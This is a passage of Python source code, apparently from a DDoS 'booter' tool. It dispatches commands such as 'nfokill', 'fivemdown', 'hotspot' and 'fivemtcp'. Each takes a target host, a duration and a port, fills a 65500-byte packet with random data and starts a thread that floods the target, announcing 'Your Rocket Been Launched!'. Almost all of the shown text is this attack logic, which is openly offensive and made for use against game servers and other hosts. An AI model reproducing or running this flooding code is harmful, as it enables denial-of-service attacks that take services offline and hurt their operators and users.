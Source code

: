 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "nfokill":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemdown":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "hotspot":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "fivemtcp":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
